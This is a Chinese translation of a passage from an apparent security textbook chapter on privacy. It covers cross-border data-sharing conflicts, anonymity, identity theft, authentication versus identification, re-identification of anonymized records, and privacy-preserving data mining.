不同司法管辖区的不同法律必然会发生冲突。由于欧盟法律禁止与隐私法律不如欧盟强健的国家的公司或政府共享数据，欧盟与美国的关系因隐私问题而紧张。（美国和欧盟已同意一套“安全港”原则，允许美国公司与欧洲国家进行贸易，尽管它们并不满足所有欧洲隐私法律。）在侧边栏 9-4 中，你可以看到这些不同的法律如何影响商业，并最终影响外交关系。

***

#### 侧边栏 9-4 当隐私原则发生冲突时

隐私是大事。当数据要在具有不同隐私原则的组织或国家之间共享时，商业、旅行或通信可能会停滞。例如，为了在 2001 年 9 月 11 日袭击事件后保卫边境，美国创建了一个筛选航空乘客潜在恐怖分子关联的计划。该计划使用旅客姓名记录（PNR）中的信息：即航空公司在你预订从一地飞往另一地的航班时收集的数据。PNR 包含 34 类信息：不仅包括你的姓名和航班详情，还包括你的电话号码、信用卡信息、餐食偏好、地址等。由于欧洲人构成了访问美国的最大群体（根据 Statista.com 数据，2013 年为 1325 万），美国要求欧洲航空公司在飞机起飞前往美国后 15 分钟内提供 PNR 数据。

回顾一下，欧洲隐私指令禁止将数据用于收集目的以外的其他目的。美国的要求显然违反了该指令。经过大量谈判，欧盟委员会和欧盟理事会于 2004 年 5 月达成协议，允许航空公司将数据提供给美国。

然而，欧洲议会提出异议，并于 2006 年 5 月 30 日，欧盟最高法院——欧洲法院裁定，欧盟委员会和欧盟理事会缺乏与美国达成此类协议的权力。隐私原则并非裁决的主要依据，但影响重大：“具体而言，法院指出，旅客记录是由航空公司为其自身商业用途收集的，因此欧盟不能合法地同意将其提供给美国当局，即使是为了公共安全或执法目的。” [CLA06] 美国国土安全部的一位发言人反驳称，隐私不是问题，因为这些数据可以向每一位抵达美国的乘客索取。

如果没有所要求的数据，美国理论上可以拒绝不参与航空公司的降落权。近一半的外国航空旅行是跨大西洋的，因此这种中断可能使所有相关经济体损失数百万。这场隐私原则的冲突通过建立一套“安全港”实践得以解决，确保为正在传输数据的个人提供充分保护。出于类似原因，美国和瑞士（非欧盟成员国）之间也建立了安全港框架。每个框架的详细信息可在 `export.gov/safeharbor/` 找到。

***

### 个人保护隐私的行动

到目前为止，我们讨论了政府和企业收集、存储和共享个人信息的方式。但作为个人，你可以采取行动来保护自己的隐私。一种方法是保护你的身份。并非每种情境都要求我们每个人透露身份，并且有些人有办法佩戴一种形式的电子面具。

#### 匿名性

有时人们可能想匿名做事。例如，一位购买海滨别墅的摇滚明星可能想避免邻居的关注，或者向约会名单发帖的人可能想在约会前先查看回复。

Deirdre Mulligan [MUL99] 列出了人们可能倾向于在网络上进行匿名活动的几个原因。她解释说，一些人喜欢网络匿名性，因为它减少了对歧视的恐惧。当潜在歧视的依据被隐藏时，住房、就业和结社中的公平性更容易得到保障。此外，那些研究自己认为属于私人事务的人，例如健康问题或性取向，可能更倾向于首先从他们认为是匿名的来源寻求信息，在更多了解自己的情况后再求助于真人。

匿名性虽有益处，但也可能造成问题。如果你试图保持匿名，如何支付费用？你可能会使用受信任的第三方（例如房地产经纪人或律师）来完成交易并保护你的匿名性。但随后第三方就知道你是谁了。David Chaum [CHA81, CHA82, CHA85] 研究了这个问题，并设计了一组协议，使此类支付可以在不向卖方透露买方身份的情况下进行。

#### 多重身份——关联或不关联

##### 大多数人已经拥有多重身份

对你的银行而言，你是你的账号。对你的车辆管理局而言，你是你的驾照号码。而对你的信用卡公司而言，你是你的信用卡号码。就特定目的而言，这些号码就是你的身份；每个号码是否以你的名义持有无关紧要。如果姓名被用作关联这些号码及其相关记录的一种方式，姓名才变得重要。有多少人与你同名？能否（或应该）有一个关键值来关联这些独立的数据库？当我们考虑到拼写错误和你姓名的多种有效形式（带或不带中间名首字母缩写、带全拼中间名、如果你有两个中间名则用其中一个，等等）时，会产生什么复杂情况？

此外，如果你有一个常用名，或者你的名字在某个时候发生了变化，会怎样？假设你合法地改了名，但从未更改信用卡上的名字。那么你的名字就不能轻易地被用作关联的键值。你可能会尝试使用次要特征作为验证手段，例如地址。然而，地址带来了另一种风险：也许在你买下这所房子之前，罪犯曾住在那里。你不应该因为一个无关的前住户而不得不为你的名誉辩护。我们也可以按日期匹配，这样我们只关联实际在同一时间住在同一房子里的人。但合租房或权宜之计的室友又带来了额外的问题。作为计算机科学家，我们知道为所有这些可能性编程是可行的，但这需要在设计解决方案*之前*仔细且耗时地考虑潜在问题。可惜，我们知道这种不寻常但关键的特殊情况往往直到代码开发并安装后才被考虑，届时每个例外情况都单独被考虑，且往往仓促行事。我们可以看到滥用和不准确的可能性。

正确关联身份以创建档案并打破匿名性会产生隐私风险，但错误地关联它们会给数据的使用和受影响人员的隐私带来更严重的风险。如果我们仔细思考，我们可以确定这种系统会失败的许多方式——这种方法可能有效，但潜在成本高昂且耗时。急于求成但不准确的诱惑也会影响隐私。

##### 匿名性

有时，我们不想要完全的匿名。你可能想订购花卉球茎，但不想被列入大量园艺用品的邮寄名单。但你也希望能再次下类似的订单，要求和以前一样颜色的郁金香。这种情况需要化名，即可用于关联服务器数据库中记录，但无法用于追溯到真实身份的唯一标识符。

多重身份也可以很方便；例如，你可能有一个专业邮箱账户和一个社交邮箱账户。同样，一次性身份（使用一段时间后停止使用）也很方便。当你注册某项服务且知道你的电子邮件地址随后会被多次出售时，你可能会获取一个新的电子邮件地址，仅用到垃圾邮件变得难以忍受为止。Seigneur 和 Jensen [SEI03] 讨论了使用电子邮件别名来维护隐私。这些用途被称为 `pseudonymity`，它们保护我们的隐私，因为我们不必透露我们认为敏感的数据。

瑞士银行账户提供了匿名性的经典例子。每位客户只有一个号码来标识和访问账户，只有少数特定的银行员工被允许知道你的身份；所有其他员工只能看到你的账号。在账单上，不显示姓名：只打印账号或化名。“只有在因毒品犯罪、资助恐怖主义或其他重大犯罪进行刑事调查时，实益所有人的身份才会向当局披露……您受瑞士银行保密法保护。”（`swiss-banking-law.com/faq/`）

有些人向电子邮件提供商注册化名，以便拥有匿名的电子邮件投递箱。其他人在聊天室或在线约会服务中使用化名。我们将在本章后面学习电子邮件隐私时，重新探讨化名的概念。

### 政府与隐私

政府收集并存储公民、居民和访客的数据。同时，政府也促进和监管商业，并监督医疗、就业、教育和银行业务等个人活动。在这些角色中，政府既是隐私的赋能者或监管者，也是私人数据的使用者。在本节中，我们将探讨政府访问私人数据的一些影响。

#### 认证


# 政府在个人认证中扮演着复杂的角色

许多政府机构（如车辆管理局）使用标识符来开展工作：认证你是谁（例如，通过护照或居留文件）并签发相关的认证文件（如驾照）。政府还可能监管使用识别和认证材料的企业。有时政府也会根据这些材料从他人那里获取数据（例如，政府可能从私营公司购买信用报告信息，以帮助筛选航空乘客名单中的恐怖分子）。在这些多重角色中，政府总是存在滥用数据和侵犯隐私权的可能性。

## 数据访问风险

认识到政府访问个人数据的这些风险，美国国防部长任命了一个委员会来调查和记录此类数据收集中的风险性质。由前联邦通信委员会主席牛顿·米诺担任主席的技术与隐私咨询委员会于 2004 年发布了报告 [TAP04]。虽然最初仅被要求审查国防部内部的隐私和数据收集，但委员会发现无法将国防部与政府的其他部分分开。因此，其描述适用于联邦政府整体。

政府从其他方获取数据时公认的风险包括：

*   `data error`：范围从转录错误到不正确的分析
*   `inaccurate linking`：两个或多个数据项本身正确，但因假定的共同元素而被错误关联
*   `difference of form and content`：精度、准确性、格式和语义错误
*   `purposely wrong`：从故意提供不正确数据的来源收集，如伪造的身份证或为误导而提供的虚假地址
*   `false accusation`：政府没有数据来核实或驳回的不正确或过时的结论，例如拖欠州税
*   `mission creep`：为某一目的获取的数据，因该数据将支持该任务而导致更广泛的用途
*   `poorly protected`：因管理和处理方式导致完整性存疑的数据

## 防止隐私丧失的措施

委员会建议政府采取以下几项措施来帮助保护私人数据：

*   `Data minimization`（数据最小化）。仅获取完成任务所需的最少数据。例如，如果目标是研究疾病的传播，仅疾病状况、日期和模糊位置（城市或县）可能就足够了；患者的姓名或联系信息可能是不必要的。
*   `Data anonymization`（数据匿名化）。在可能的情况下，用不可追踪的代码（如记录号）替换识别信息。但要确保这些代码无法关联到揭示敏感数据的另一个数据库。
*   `Auditing`（审计）。记录谁在何时访问了数据，既有助于在发生泄露时确定责任方，也有助于记录损害的程度。

### 安全与受控访问

充分保护并控制对敏感数据的访问。

### 培训

确保访问数据的人员了解要保护什么以及如何保护。

### 质量

考虑数据收集的目的、存储方式、数据时效及类似因素，以确定数据的有用性。

### 受限使用

这与控制访问不同，需审查所有拟议的数据用途，以确定这些用途是否与数据收集的目的以及处理方式（验证、存储、控制）一致。

### 数据留在原地

如果可能，将数据留给原始所有者或收集者。此举有助于防止仅仅因为数据可用，就因任务扩展而导致数据被滥用。

### 策略

建立明确的数据隐私策略。杜绝违反隐私策略的行为。

这些步骤将极大地有助于确保隐私保护。此外，美国开始着手解决将众多基于州的数据泄露法律整合为一部综合性法律的问题。2002 年，加利福尼亚州通过了第一部全州范围的法律，以解决消费者个人身份信息数据库安全漏洞日益严重的问题。因此，加利福尼亚州法律要求任何“州政府机构，或在加利福尼亚州开展业务的个人或企业，如果拥有或许可包含个人信息（按定义）的计算机化数据，须以特定方式披露任何数据安全漏洞（按定义），通知其未加密的个人信息被未经授权的人员获取、或合理地被认为已被获取的任何加利福尼亚州居民。”只有“如果执法机构认定通知会妨碍刑事调查”，法律才允许延迟通知。此外，法律还要求许可此类信息的任何机构（如机动车管理局或监管事务部）通知信息所有者或被许可人任何可能威胁数据隐私或完整性的安全漏洞。

---

**州法律要求因计算机事件导致个人数据丢失时必须进行通知。**

---

许多其他州通过了类似法律，但定期尝试用全面的联邦立法来取代它们均告失败。与此同时，欧盟于 2009 年发布了《隐私和电子通信指令》，要求每个欧盟成员国在未来几年内实施该指令。Selyukh [SEL14] 报道称，受塔吉特（百货连锁店）、尼曼·马库斯（高档百货连锁店）和迈克尔斯（工艺品连锁店）大规模数据泄露事件的推动，美国正试图再次整合众多州隐私法律：47 个州加上关岛、波多黎各和维尔京群岛。（只有阿拉巴马州、新墨西哥州和南达科他州没有泄露立法。）全国零售联合会指出：“一项先发制人的联邦泄露通知法将允许零售商集中资源遵守单一法律，并使消费者无论居住在哪里都能了解自己的权利。”但一些州担心较弱的联邦法律会取代更强有力的州法律。

## 身份盗窃

顾名思义，**身份盗窃**意味着窃取或冒用他人的身份。例如，未经许可使用他人的信用卡属于欺诈。早在 1998 年，美国通过《身份盗窃和假设威慑法案》，以他人名义申请新信用卡也属于犯罪：身份盗窃。身份盗窃问题已从 20 世纪 70 年代相对罕见的问题上升为如今影响 20 位消费者中就有 1 位的问题。2005 年，美国联邦贸易委员会收到了超过 250,000 起身份盗窃投诉 [FTC06]。但 Javelin 2014 年身份欺诈报告 [JAV14] 指出，美国平均每两秒就发生一起身份盗窃。确实，2013 年整体身份盗窃事件影响了 5.3% 的消费者，高于 2012 年的 4.9%。

身份盗窃以多种方式发生：未经授权以他人名义开设账户、更改账户信息以使窃贼能够接管并使用他人的账户或服务，或通过以被盗名义获取身份证件来实施欺诈。大多数身份盗窃案件在数据被盗后一两个月变得明显，当时欺诈性账单或交易开始出现在受害者的档案中。到那时，窃贼很可能已经获利并弃用了被盗身份，转而寻找新受害者。

拥有相对较少的唯一识别特征助长了身份盗窃：窃贼获得一个关键信息（如国民身份号码），可用它获取第二个，再凭这两个获取第三个。每个关键信息都能让其访问更多数据和资源。极少有公司或机构设置真正具有辨别度的认证问题（如你常去的杂货店、你最近购买机票飞往的城市、或你上一份纳税申报表第四行第三位数字）。由于认证关键信息很少，我们经常被要求向许多人提供相同的关键信息（如母亲婚前姓氏），其中一些人可能是身份盗窃的兼职帮凶。美国司法部维护一个身份盗窃网站，提供如何预防身份盗窃以及如果你发现自己成为受害者该怎么办的信息：[`www.justice.gov/criminal/fraud/websites/idtheft.html`](http://www.justice.gov/criminal/fraud/websites/idtheft.html)。

# 9.3 认证与隐私

在第 2 章中，我们学习了认证，将其描述为证明或验证先前给定身份的一种手段。我们还讨论了各种认证技术，这些技术受制于误接受（假阳性）和误拒绝（假阴性）的限制。在此，我们探讨当混淆认证与识别时所出现的问题。

我们知道，密码是一种差劲的区分器，绝对不是标识符。你不会指望系统的所有用户都选择不同的密码。我们只需要 ID-密码对唯一即可。在另一端，指纹和眼睛视网膜的血管模式被认为是唯一的：给定一个指纹或视网膜模式，我们预期只能得到一个对应的身份，或在数据库中找不到匹配项。这种情况假设我们使用的是优质图像。如果指纹模糊或不完整（非完全接触或在部分不合适的表面上），我们可能会得到多个可能的匹配。其他认证器则不那么复杂。手部几何特征或面部外观的区分度不高。特别是人脸识别，高度依赖面部图像的质量：评估一个人直视摄像头的照片，与试图在人群照片中识别一张面孔，截然不同。

此处涉及两个不同的目的，尽管两者有时会被混淆。对于认证，我们拥有一个身份和一些认证数据，询问认证数据是否与给定身份的模式匹配。即，某人声称是 X，认证验证该人确实是 X。对于识别，我们只有认证数据，询问哪个身份与认证器对应。即，无人声称身份，但我们必须从认证数据中推断出此人是谁。第二个问题（这是谁？）比第一个问题（这是 X 吗？）难回答得多。

## 认证的含义

我们实际上使用“认证”一词来表示三种不同的含义 [KEN03]。我们对个体、身份或属性进行认证。**个体**是唯一的一个人。对个体进行认证，就是我们允许某人进入受控房间时所做的：我们只希望允许那个特定的人类进入。**身份**是一个字符串或类似的描述符，但它不一定对应单个人，也不是每个人只有一个名字。该身份可能描述一群或一类符合所提供描述的人。例如，公司的销售部门可能被定义为一个多人身份，允许该组中的任何人回复 `sales@company.com`。同样，当我们确认试图以 `admin` 身份登录的任何人（或任何事物）都提供了该账户的有效认证器时，我们就是在认证一个*身份*。在聊天室中将身份认证为 `SuzyQ`，并不能说明使用该标识符的人的任何情况：可能是一个 16 岁的女孩，也可能是一对中年男性警察侦探，他们在其他时候使用 `FreresJacques` 这个身份。

最后，如果我们验证某人拥有该属性，就是在认证一个*属性*。**属性**是一种特征，例如指纹或 DNA 图谱。下面是一个认证属性的例子。一些酒吧、餐馆或酒馆要求顾客年龄至少 21 岁才能饮酒。俱乐部的看门人核实一个人的年龄，并在该人的手上盖章，以表明该顾客已年满 21 岁。请注意，为了做出决定，看门人可能查看了列出该人出生日期的身份证，因此看门人知道该人的确切年龄是 24 岁 6 个月 3 天。或者，看门人可能被授权观察某人的面容，判断留着灰发、满脸皱纹的人看起来是否远超 21 岁，以至于无需核实。该印章认证器仅表示该人拥有年满 21 岁或以上的属性。

在计算应用中，我们经常对个体、身份和属性进行认证。当我们混淆这些不同的认证及其含义时，就会出现隐私问题。例如，美国的社会安全号码最初并不打算作为标识符，但现在它通常充当标识符、认证器、数据库键，或以上三者兼而有之。当一个数据值服务于两个或更多用途时，为某一目的获取它的人可以将其用于另一目的。

将身份与个人联系起来很棘手。在第 5 章中，我们讲述了 Rootkit（Rootkit，植入工具包）的故事，这是一种恶意软件，未经授权的人可以通过它获得计算机的管理控制权。假设警方因轻微罪行逮捕了 Michel 并扣押了他的电脑。通过检查电脑，警方发现了将该电脑与一起间谍案联系起来的证据。警方在 Michel 的电脑上发现了 Michel 发送的有罪电子邮件，并对其提起诉讼。作为辩护，Michel 指出了他电脑上的 Rootkit。他承认他的电脑可能被用于间谍活动，但否认他本人参与其中。他说，警方在邮件中的 Michel 身份与 Michel 这个人之间建立了不合理的联系。Rootkit 为其他人如何利用 Michel 的身份（他的电脑）行事提供了合理的解释。这个例子说明了为什么我们必须仔细区分个体认证、身份认证和属性认证。

我们将在下一节探讨认证的隐私影响。

### 个体认证

识别个体的方法相对较少。当你出生时，你的出生会在政府档案办公室登记，该办公室向你的父母签发出生证明。几年后，你的父母让你入学，出示出生证明，以便学校为你签发学生身份证。再后来，你提交出生证明和照片以获取护照或国家身份证。以类似的方式，我们一生中会收到许多其他的认证号码和卡片。

这个终身过程始于婴儿的出生证明。但婴儿的身体描述（身高、体重，甚至发色）在短短几个月内就会发生显著变化。出生证明可能包含婴儿的指纹，但将新生儿采集不佳的指纹与成人的指纹进行匹配，充其量只是具有挑战性。

幸运的是，在大多数情况下，接受对个体的弱认证是可以接受的：一个从小认识你的朋友、一位老师、邻居和同事都可以支持身份声明。

### 身份认证

我们都使用许多不同的身份。当你用信用卡购物时，你是以信用卡持卡人的身份进行的。在某些地方，你可以用车里的射频设备支付路费，因此传感器将你认证为特定收费设备的持有者。你可能有一张餐卡可以刷卡就餐，所以收银员将你认证为持卡人。你入住酒店并获得一张磁条卡代替钥匙，你房间的门将你认证为未来三晚的有效住客。如果你回想一下你的一天，你可能会发现几十种你的某个身份方面被认证的方式。

从隐私的角度来看，可能存在也可能不存在将所有这些不同身份联系起来的方法。信用卡关联到持卡付款人的姓名和地址，这可能是你、你的配偶，或任何其他愿意为你支付费用的人。你的汽车收费设备关联到支付通行费的人的姓名，或许还有地址：你、车主、租赁公司或雇主。当你打电话时，会有对电话账户持有者的认证，诸如此类。

有时我们不希望某个行为与某个身份关联。例如，匿名举报或使用“举报人”电话热线是提供有关非法或不当活动的匿名信息的一种方式。如果你知道你的老板在欺骗公司，与老板对质可能不是一个明智的职业举动。你可能甚至不希望存在任何记录，让老板能确定是谁举报了欺诈。所以你匿名举报。你可能会采取预防措施，从公用电话拨打，这样就无法追踪到打电话的人。在这种情况下，你是有意采取措施，防止通用标识符将你与举报联系起来。

然而，由于数据随时间积累，关联仍然可能实现。当你离开办公室去公用电话时，门禁刷卡记录会留下痕迹。监控摄像头显示你站在公用电话旁。咖啡店的记录包含一个时间戳，显示你在返回办公室前何时购买了咖啡（使用了你的顾客忠诚卡）。这些细节的时间与匿名电话举报的时间吻合。抽象来看，这些数据项在数百万其他数据中并不突出。但有人探究举报时间前后的几分钟，就能构建出这些关联。这种关联可以手工完成。但不断改进的技术允许计算机从看似无关且无趣的数据点中得出更多此类平行关联。

因此，为了保护隐私，我们可能会阻止记录关联的尝试。一位朋友在商店办理顾客忠诚卡时提供虚构姓名。另一位朋友用化名预订晚餐。在社区商店，店员在你购物时总会询问电话号码，即使你用现金支付。你可以乐意给他们一个号码；只是碰巧不是你的真实号码。许多网站（参见 [`http://www.dmoz.org/Computers/Internet/E-mail/Spam/Preventing/Temporary_Addresses/`](http://www.dmoz.org/Computers/Internet/E-mail/Spam/Preventing/Temporary_Addresses/)）提供一次性使用、有限有效期（长达几个月）或直到地址被删除的临时电子邮件地址。

#### 匿名化记录

有时，单个数据元素并不敏感，但它们之间的关联却是敏感的。例如，某人叫 Erin，某人患有糖尿病；这两个事实单独看都不敏感。但“Erin 患有糖尿病”这一关联就变得敏感了。

医学研究人员希望研究人群以确定疾病发病率、共同因素、趋势和模式。为保护隐私，研究人员通常处理匿名化记录：即移除了身份识别信息的记录。如果这些记录能被重新关联回身份识别信息，隐私就会受损。例如，如果记录中移除了姓名但保留了电话号码，研究人员可以利用另一个电话号码数据库来确定患者身份，或者至少确定登记在该电话号码下的姓名。移除足够多的信息以防止识别或重新识别既困难，也可能限制研究的可能性。

正如侧边栏 9-5 所述，Ross Anderson 受邀研究一个为冰岛公民准备的大型数据库。该数据库本将整合多个医疗保健数据库，供研究人员和医疗专业人员使用。Anderson 证明，即使记录已被匿名化，仍有可能将特定记录与特定个人关联起来 [AND98a, JON00]。尽管存在重大的隐私困难，冰岛仍决定推进合并数据库的建设计划。

***

##### 侧边栏 9-5 冰岛权衡匿名性与公共利益

1998 年，冰岛授权建立一个包含公民医疗记录、家谱和基因信息的数据库。表面上，该数据库将为研究人员——医疗专业人员和制药公司——提供遗传疾病数据。冰岛对遗传疾病研究特别有价值，因为其基因库长期保持稳定；极少外来者移居冰岛，也极少冰岛人移居国外。为保护隐私，所有识别姓名或编号将被唯一化名替代。冰岛卫生部门请计算机安全专家 Ross Anderson 分析该方案的安全性。

Anderson 发现该提议方案存在若干缺陷 [AND98]：

*   纳入家谱数据库使维护个人匿名性的任务复杂化，因为独特的家族特征会暴露身份。此外，家谱数据库的部分内容因出生和死亡记录中发布的个人信息而已经公开。例如，在一个分别于 1910 年、1911 年和 1929 年出生三个孩子的家庭中，识别某人会相当容易。
*   甚至一个人的一生医疗事件史也可能识别其身份。如果数据库中恰好只有一人在某个冬天滑雪摔断腿，第二年夏天又染上皮肤病，那么许多人可能都知道此人的身份。
*   即使对查询施加小样本集限制，也无法防范代数攻击。
*   为分析基因数据（因其本质必然包含极细节），研究人员需要进行复杂和特定的查询。这种强大的查询能力同样可能导致结果组合的任意选择。

基于这些原因（及其他原因），Anderson 建议停止开发公共数据库。尽管存在这些问题，冰岛议会仍投票决定继续建设并公开发布该数据库 [JON00]。

***

在关于推导身份的最惊人分析之一中，Latanya Sweeney [SWE01] 报告称，美国 87% 的人口极有可能通过 5 位邮政编码（美国称为 zip code）、性别和出生日期的组合被识别出来。考虑到近 8,000 名美国居民必须共享同一个生日^2，或任何 5 位邮政编码区域的平均人口为 10,000^3，这一统计数据令人震惊。Sweeney 用一项真实研究支持了她的统计分析。1997 年，她分析了马萨诸塞州剑桥市（约 50,000 人口）的选民名册，其中一人是时任州长。她以他为例，发现只有六人拥有他的出生日期，其中只有三人是男性，而他是这三人中唯一居住在其邮政编码区域的人。作为公众人物，他在竞选文献中公开了出生日期，但出生日期有时可从公共记录获取。关于从匿名化记录推导身份的类似研究 [SWE04, MAL02] 表明，从其他易获取数据中推导身份的可能性有多大。

> 2. 假设人口在 100 年寿命内按年龄均匀分布（这不切实际），36,600 个生日（日-月-年）反映在超过 3 亿的美国人口中。平均每个生日约有 8,000 人。
>
> 3. 美国邮政服务（分配邮政编码）已发放约 45,000 个邮政编码值（共 99,999 个可能值）。然而，一些邮政编码无居民，如分配给单个大型办公楼的编码。美国人口普查局编制近 32,000 个称为“邮政编码制表区”的区域统计数据，这些区域近似地理邮政编码边界。以美国总人口超过 3 亿计，每个制表区平均约包含 10,000 人。

***

**现成可得的数据可被关联以侵犯隐私。**

***

Sweeney 的工作令人信服地证明了有效匿名化数据是多么困难。许多医疗记录至少编码了性别和出生日期，这些记录通常被认为可以发布用于匿名研究目的。此外，医学研究人员可能需要邮政编码，以将医疗状况与地理和人口统计特征联系起来；例如，研究人员可能想要追踪疾病在不同地理区域或按个人特征的传播情况。很少有人会认为添加邮政编码会导致如此高比例的隐私泄露。

# 结论


正如我们所见，识别和认证是两项截然不同的活动，但很容易混淆。部分混淆源于人们没有清晰地区分其背后的概念。当一个数据项被用于多种用途时，这种混淆会被放大。

认证依赖于某种能够确认某一属性的事物。在现实生活中，可靠的认证因子很少，因此我们倾向于过度使用现有的因子：身份证号、出生日期或姓氏。但正如我们所描述的，这些认证因子有时也被用作数据库键，从而对隐私产生负面影响。

我们还研究了我们不希望被识别的情况。匿名性和化名性在特定语境下很有用。但数据收集和关联——其规模只有计算机才能实现——能够击败匿名性和化名性。作为计算机专业人员，当我们引入新的计算机能力时，需要鼓励公众就相关隐私问题进行辩论。

在下一节中，我们将研究数据挖掘，这是一种涉及数据库链接的数据检索过程。

### 9.4 数据挖掘

在第 7 章中，我们描述了数据挖掘的过程以及一些安全和隐私问题。在这里，我们将探讨如何在数据挖掘的背景下维护隐私。

私营部门的数据挖掘是一个利润丰厚且快速增长的行业。收集的数据越多，从各种聚合中学习的机会就越多。确定趋势、市场偏好和特征可能是有益的，因为它们能带来高效且有效的市场。但如果人们的私人信息在未经许可的情况下被获知，他们就会变得敏感，甚至可能受到伤害。有关数据跟踪可以在多大程度上了解个人的示例，请参阅侧边栏 9-6。

***

#### 侧边栏 9-6 企业比你自己更了解你

大型数据集使组织能够对你进行预测，不仅能定制广告，还能预测可能的健康或行为变化。例如，Duhigg [DUH12] 描述了 Target 公司如何收集每位实际和潜在客户的数据。“几十年来，Target 收集了每一位定期走进其商店的人的海量数据。只要有可能，Target 就会给每位购物者分配一个唯一代码——内部称为 `Guest ID number`——用以记录他们购买的一切。‘如果你使用信用卡或优惠券，或填写调查问卷，或寄回退款单，或拨打客户服务热线，或打开我们发给你的邮件，或访问我们的网站，我们都会记录下来并将其链接到你的 `Guest ID`，’”Target 的一位数据分析师说道。“我们想了解一切所能了解的。”

Duhigg 描述了 Target 如何利用这些数据识别出可能处于孕期第二阶段的女性，以便向她们提供婴儿相关商品的特价。一位年轻女性的父亲因在平邮中收到与怀孕相关的 Target 广告而大发雷霆——结果却从尴尬的女儿口中得知，验孕棒证实了 Target 早已怀疑的事实。

这些预测在正确时已足够具有侵入性，但在错误时更具破坏性。人们可能因对其可能行为的预测而被拒贷、拒聘或拒贷。正如我们在本章所见，数据可能不正确，预测可能出错，而受影响的人可能毫不知情，他们的选择正以这种方式受到限制。

***

#### 政府数据挖掘

政府数据挖掘的前景令一些人特别担忧。我们相信可以通过法院、负面舆论或其他形式的压力，制止私营公司的过度行为和侵入性行为。但要阻止政府采取行动则困难得多。人们害怕那些对被视为敌人的公民进行报复的政府或统治者，甚至推定负责任的民主国家在处理数据时也可能犯错。许多政府数据收集和分析是在没有公开的情况下进行的；有些项目只是未被宣布，而另一些则被故意保密。因此，公民对不受约束的政府权力能做什么感到不安。而且由于数据挖掘既不完美也不精确，纠正政府持有的错误数据以及从数据挖掘得出的错误结论几乎是不可能的。

***

**数据挖掘既不完美也不精确，因此纠正错误数据和结论几乎是不可能的。**

***

##### 隐私保护数据挖掘

由于数据挖掘可能威胁隐私，研究人员一直在探索在数据挖掘操作期间保护隐私的方法。一种天真且无效的方法是试图从被挖掘的数据库中移除所有识别信息。然而，有时识别信息对于挖掘是必要的，甚至可能是数据挖掘的目标。更重要的是，即使从数据库中移除了显性的识别信息，识别仍然可能实现。

数据挖掘通常采用两种方法——关联和聚合。我们将探讨针对这两种方法的隐私保护技术。

##### 关联的隐私保护

关联涉及在公共字段上连接数据库。正如保护 Erin 与糖尿病之间的敏感链接一样，关联的隐私保护旨在控制这种链接。

John Vaidya 和 Chris Clifton [VAI04] 讨论了数据扰动作为防止危及隐私的关联的一种方法。作为一个简单的例子，假设两个数据库仅包含三条记录，如表 9-1 所示。链接这些数据库的 `ID` 字段使得很容易看出 Erin 患有糖尿病。


**表 9-1** 数据扰动示例

一种数据扰动形式涉及交换数据字段以防止记录链接。交换 Erin 和 Geoff 的病情值（但不交换 `ID` 值）打破了 Erin 与糖尿病的链接。数据库的其他属性得以保留：三位患者拥有真实姓名，三种病情准确描述了患者。交换所有数据值会阻碍有用的分析，但有限的交换则在隐私和准确性之间取得了平衡。以我们仅交换 Erin 和 Geoff 的例子为例，你仍然知道参与者中有一人患有糖尿病，但你无法知道 Geoff（现在 `ID=1`）是否已被交换。反过来说，如果你无法知道某个值是否被交换，你就不能假设你推导出的任何此类关联是真实的。

当然，通过破坏数据库中的链接，我们也剥夺了研究人员检查数据以寻找其他联系的能力；例如，如果第一张表还包含年龄，研究人员可能想要分析数据，看患者年龄是否与糖尿病的存在相关。

我们这个三个数据点的例子当然太小，不足以用于现实的数据挖掘应用，我们构建它只是为了展示值交换将如何进行。三分之一的机会正确识别出患糖尿病的人，似乎足以让一些人相信 Geoff 就是那一个。但一个更现实的例子将涉及成千上万个数据点的数据库，因此正确推断的可能性变得微乎其微。

考虑一个更现实的大型数据库示例。我们可能拥有地址而非姓名，数据挖掘的目的是确定社区与疾病（如麻疹）之间是否存在相关性。交换所有地址将破坏得出关于社区任何正确结论的能力。交换少量但显著的地址将引入不确定性以保护隐私。一些麻疹患者可能会被交换出高发病率社区，但其他麻疹患者也会被交换进来。如果某社区的发病率高于一般人群，随机交换将导致损失多于收益，从而降低相关性的强度。经过值交换后，原本微弱的相关性可能变得如此之弱以至于在统计上不显著。但原本强的相关性仍将显著，只是强度稍弱。

因此，值交换是一种有助于在数据挖掘中平衡隐私与准确性目标的技术。

***

**数据交换有助于在提供可用研究数据的同时维护合理的隐私。**

***

###### 聚合隐私

聚合不一定直接威胁隐私。正如第 7 章所示，聚合值（如求和、中位数或计数）通常依赖于如此多的数据项，以至于任何单个贡献项的敏感性都被隐藏了。政府统计数据很好地说明了这一点：人口普查数据、劳工统计和学校成绩显示了群体（如社区或学区）的趋势和模式，但不侵犯任何单个个体的隐私。

正如我们在第 7 章中也解释的那样，推理和聚合攻击在分布的两端效果更好。如果数据库子集中只有极少或极多的数据点，少量方程式就可能泄露私有数据。单个数据值的平均值就是该值本身。有三个数据值时，每一对的平均值产生三个含三个未知数的方程，这正如你所知可以用线性代数轻松求解。类似的方法也适用于整个数据库的超大子集。中等规模的子集能很好地保护隐私。因此，隐私通过 `n` 项、超过 `k` 百分比的规则得以维护，如第 7 章所述。

正如第 7 章所述，数据扰动可用于降低聚合带来的风险。扰动不限制研究人员处理数据集统计数据的能力；它只是防止将个体身份与特定数据项关联，从而保护隐私。研究人员通常可以从总体的分布和量级得出结论，从而在不阻碍有效研究的前提下保护隐私。

Vaidya 和 Clifton [VAI04] 还描述了一种通过对数据库进行分区来保护隐私的方法。我们在表 9-1 中的简单示例可以看作是垂直分区数据库以分离姓名与病情这一敏感关联的例子。

###### 数据挖掘隐私总结

正如本节所述，数据挖掘与隐私并非互斥：我们可以从数据挖掘中得出结果而不牺牲隐私。诚然，扰动会导致一定的准确性损失。反方观点认为，结论置信度的削弱对弱结果影响最严重；强结论仅变得稍弱一些。进一步的研究可能会产生更多在数据挖掘操作中保护隐私的技术。

我们*可以*在不牺牲隐私的情况下得出结果，但隐私不会自动存在。此处描述的技术必须由理解并尊重隐私含义的人来应用。如果不加控制，数据挖掘有可能破坏隐私。安全专业人员需要继续在数据挖掘应用中推动隐私保护。

***

**我们*可以*在不牺牲隐私的情况下得出有用的研究结果，但隐私不会自动存在。**

***

### 9.5 Web 隐私

互联网有时被视为对隐私最大的威胁。正如第 7 章所述，互联网的一个优势（同时也是劣势）是匿名性。用户可以在不透露身份的情况下访问网站、发送消息并与应用程序交互。至少我们希望如此。不幸的是，由于 Cookie、广告软件、间谍机器人和恶意代码等因素，这种匿名性是表面的且很大程度上是单向的。复杂的 Web 应用程序可以了解用户的大量信息，但用户对应用程序知之甚少。

